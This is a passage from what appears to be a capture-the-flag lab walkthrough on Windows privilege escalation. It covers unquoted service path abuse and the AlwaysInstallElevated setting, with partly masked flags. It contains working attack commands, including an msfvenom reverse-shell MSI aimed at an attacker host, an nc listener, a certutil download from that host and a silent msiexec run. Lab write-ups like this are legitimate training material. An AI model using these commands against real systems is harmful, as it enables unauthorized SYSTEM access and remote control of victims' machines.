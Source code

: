 To exploit:
```powershell
# If path is: C:\Program Files\Vulnerable Scanner\bin\scanner.exe
# We can place a file at:
# C:\Program.exe
# C:\Program Files\Vulnerable.exe

# Create a simple executable that runs and shows output
echo 'cmd /c "whoami > C:\temp\service_exploited.txt"' > C:\Program.bat

# Restart the service
sc stop VulnScanner
sc start VulnScanner

# Check if it worked
type C:\temp\service_exploited.txt
```

**FLAG{E***************0}** - From VulnScanner service
**FLAG{V***************8}** - From CommonAppService
**FLAG{J***************0}** - From VendorUpdater

### Step 4.4: AlwaysInstallElevated

Check if MSI installations run with elevated privileges:

```powershell
# Check registry
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# If both are set to 1, we can escalate
```

Exploitation:
```bash
# From Kali, create malicious MSI
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LHOST LPORT=4444 -f msi -o exploit.msi

# Start listener
nc -nlvp 4444

# Upload and execute MSI on target
certutil -urlcache -f http://$LHOST/exploit.msi exploit.msi
msiexec /quiet /qn /i exploit.msi
```

Once you have SYSTEM access, explore:
```powershell
whoami
cd C:\Windows\System32\config\systemprofile
dir /a
type msi_flag.txt
```
